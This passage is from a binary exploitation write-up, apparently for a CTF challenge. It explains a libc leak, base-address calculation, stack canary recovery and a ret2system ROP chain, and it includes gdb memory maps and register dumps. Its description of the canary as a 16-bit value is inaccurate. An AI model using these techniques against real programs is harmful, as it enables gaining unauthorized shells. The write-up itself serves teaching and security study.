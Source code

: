 ```
0x00007f6c35245000 0x00007f6c35246000 rw-p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6c35246000 0x00007f6c35247000 rw-p	mapped
0x00007ffdc2a72000 0x00007ffdc2a93000 rw-p	[stack]
0x00007ffdc2a98000 0x00007ffdc2a9b000 r--p	[vvar]
0x00007ffdc2a9b000 0x00007ffdc2a9d000 r-xp	[vdso]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
gdb-peda$ 
```

We can see that the randomized base address for the used libc starts at `0x7f6c34c55000`.  
If we substract this value from the random libc leak we get the offset.  
This value marks the offset of the random libc address from the base address of libc.  
We can use exactly this offset value for any future execution to find our libc base address.  
This works, since we may have a fully randomized process memory and with that a randomized libc position in memory, but the offset of things within libraries is not changed and always has the same distance from the base address!
Hence calculating the randomized base address of libc with a static offset value is working 100% of the time.  
All of this base calculation happens in `get_libc_base_address(leak_dump)`.  


Having access to libc is like opening the box of the pandora.  
So much useful functions in there.  
I chose to go the `ret2system` way and calculated the address of `system()` and a pointer to `/bin/sh` from the libc base address.  
All of that happens in `get_system_in_glibc(libc_base)` and `get_bin_sh_in_glibc(libc_base)`.  

A really valuable information happened to be at the 71th position in the leaked data.  
We got our stack canary, which we need to successfully leverage a buffer overflow!  
This one is especially easy to spot since its a 16 bit value where the 2 least significant bits are both 0.  
I just extracted the value from the dump in `get_canary_value(leak_dump)`.  

All that is left now is putting it all together.  
This happens in `create_payload(canary, system, shell)`.  
I'm filling the buffer until right before it overflows in the stack canary.  
Then I'm appending the canary value and continue to overwrite the `RBP` with some junk, since it's irrelevant what we put here for the PoC.  
Afterwards our little friend the `pop rdi; ret` gadget is put onto the stack.  
Lastly a pointer to our wanted shell and the system call itself are added.  

Let's visualize this in gdb.  
Right when we hit the `ret` instruction in `trustMeIAmAnEngineer` after our buffer overflow happened our registers and stack look like this:

```
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7f6c34d4c260 (<__read_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x800 
RSI: 0x7ffdc2a90090 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"...)
RDI: 0x0 
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffdc2a904a8 --> 0x400903 (<__libc_csu_init+99>:	pop    rdi)
RIP: 0x400812 (<trustMeIAmAnEngineer+78>:	ret)
R8 : 0x7f6c35219700 (0x00007f6c35219700)
R9 : 0x3 
R10: 0x37b 
R11: 0x246 
R12: 0x400670 (<_start>:	xor    ebp,ebp)
R13: 0x7ffdc2a905a0 --> 0x1 
R14: 0x0 
R15: 0x0
```
